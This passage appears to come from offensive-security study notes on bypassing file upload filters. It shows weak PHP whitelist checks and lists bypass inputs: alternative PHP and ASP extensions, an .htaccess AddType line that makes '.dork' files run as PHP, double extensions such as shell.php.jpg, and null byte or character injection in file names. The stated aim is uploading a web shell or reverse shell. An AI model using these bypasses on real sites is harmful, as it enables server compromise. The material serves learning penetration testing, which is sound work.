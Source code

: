 We can perform a fuzzing or use a script to find if there is a whitelist of file extensions.

```bash
# This only checks if the whitelist are there in the file upload and not if it ends with it.
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

#### 3.4.4 Bypassing Filters

We have different options to do so:

1.  **Changing File Extensions**: if direct upload of .php files is restricted or filtered, try alternative extensions that might bypass filters.

```bash
# For PHP
.pHP, .phps, .php7, .php4, .php5, .php3, .xxx

# For ASP(X)
.aspx, .asp, .ashx, .asmx
```

2.  **Use `.htaccess`**: if the application allows `.htaccess` file uploads, you can exploit it to change file handling settings: `AddType application/x-httpd-php .dork`; then, upload a file with the `.dork` extension, which might be interpreted as PHP and could contain a reverse shell or web shell.

```bash
# We can now upload [file].dork files.
echo "AddType application/x-httpd-php .dork" > .htaccess
```

3.  **Double Extension**: upload files with double extensions like `shell.php.jpg` or `shell.php.jpeg` to bypass simple filters.

```bash
# This checks if it ends with it so double extension wont work.
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

4.  **Characters Injection**: try using null byte injection to bypass filters, e.g., `shell.php%00.jpg`; or inject characters before or after the final extension:

```bash
# For example shell.php%00.jpg works with PHP servers with version 5.X or earlier, as it causes the PHP web server to end the file name after the '%00', and store it as 'shell.php'.
%20
%0a
%00
%0d0a
/
.\
.
…
:
```
